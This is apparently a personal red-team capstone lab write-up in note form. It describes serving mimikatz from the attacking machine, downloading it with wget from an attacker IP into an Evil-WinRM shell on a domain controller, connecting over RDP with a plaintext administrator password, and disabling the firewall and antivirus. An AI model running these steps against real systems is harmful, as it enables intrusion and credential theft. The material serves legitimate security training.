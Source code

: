 ## Download mimikatz

[[Dumping secrets from CORPDC#Connect to RDP with the Administrator's credentials|Connect to CORP.DC with Administration credentials]]


### Enable http.server using python and proxychains on the Attacking machine


~/…/red_team_recon/Capstone_Challenge/Capstone_Challenge_Resources/Tools/mimikatz_trunk/x64$  `proxychains -q python3 -m http.server`

### Get mimikatz
On the tools provided on Capstone challenge folder you can find mimikatz.
Run on the Evil-WinRM shell the following command.

Evil-WinRM* PS C:\Users\Administrator> `wget http://10.50.110.16:8000/mimikatz.exe -o mimikatz.exe`

#### Connect to RDP with the Administrator's credentials

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:Administrator /p:Hacker@123` 


## Disable CORP.DC firewall

Disabled firewall.
![[Preparing the path-20240607144158824.webp]]
## Disable virus protection

Disable virus and turned off Real-time protection from settings.
- **Open Windows Security:**
    
    - Click on the **Start** button.
    - Type **Windows Security** in the search bar and press Enter.
    - Alternatively, you can also find it by navigating through **Settings > Update & Security > Windows Security**.
    - ![[Preparing the path-20240607143234384.webp]]


